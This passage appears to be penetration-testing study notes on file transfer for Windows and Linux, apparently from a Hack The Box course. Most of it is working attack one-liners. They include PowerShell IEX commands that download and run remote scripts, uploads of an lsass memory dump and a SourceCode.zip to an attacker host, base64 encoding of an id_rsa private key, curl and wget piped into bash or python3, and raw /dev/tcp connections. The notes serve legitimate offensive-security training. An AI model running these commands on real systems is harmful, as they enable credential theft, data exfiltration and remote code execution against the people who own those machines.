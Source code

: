     ftp> GET file.txt
    ftp> bye
    
    C:\htb>more file.txt
    This is a test file
    ```
    
- Uploading Files
    - [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
    - pip3 install uploadserver
    - python3 -m uploadserver
    - IEX(New-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1](https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1)')
    - Invoke-FileUpload -Uri [http://192.168.49.128:8000/upload](http://192.168.49.128:8000/upload) -File C:\Windows\System32\drivers\etc\hosts
    - Invoke-FileUpload -Uri [http://172.16.5.15:8000/upload](http://192.168.49.128:8000/upload) -File C:\Users\mlefay\AppData\Local\Temp\lsass.DMP
    - echo <base64> | base64 -d -w 0 > hosts
- SMB Uploads
    - sudo pip install wsgidav cheroot
    - sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
    - C:\htb> dir \\192.168.49.128\DavWWWRoot
    - C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
    - C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
- FTP Uploads
    - sudo python3 -m pyftpdlib --port 21 --write
    - PS C:\htb> (New-Object Net.WebClient).UploadFile('[ftp://192.168.49.128/ftp-hosts](ftp://192.168.49.128/ftp-hosts)', 'C:\Windows\System32\drivers\etc\hosts')
    
    ```xml
    C:\htb> echo open 192.168.49.128 > ftpcommand.txt
    C:\htb> echo USER anonymous >> ftpcommand.txt
    C:\htb> echo binary >> ftpcommand.txt
    C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
    C:\htb> echo bye >> ftpcommand.txt
    C:\htb> ftp -v -n -s:ftpcommand.txt
    ftp> open 192.168.49.128
    
    Log in with USER and PASS first.
    
    ftp> USER anonymous
    ftp> PUT c:\windows\system32\drivers\etc\hosts
    ftp> bye
    ```
    

### Linux

- md5sum id_rsa
- cat id_rsa |base64 -w 0;echo
- echo “<base64-string>” | base64 -d > id_rsa
- Web Downloads
    - wget [https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) -O /tmp/LinEnum.sh
    - curl -o /tmp/LinEnum.sh [https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
    - curl [https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) | bash
    - wget -qO- [https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py) | python3
- Bash
    - exec 3<>/dev/tcp/10.10.10.32/80
    - echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
    - cat <&3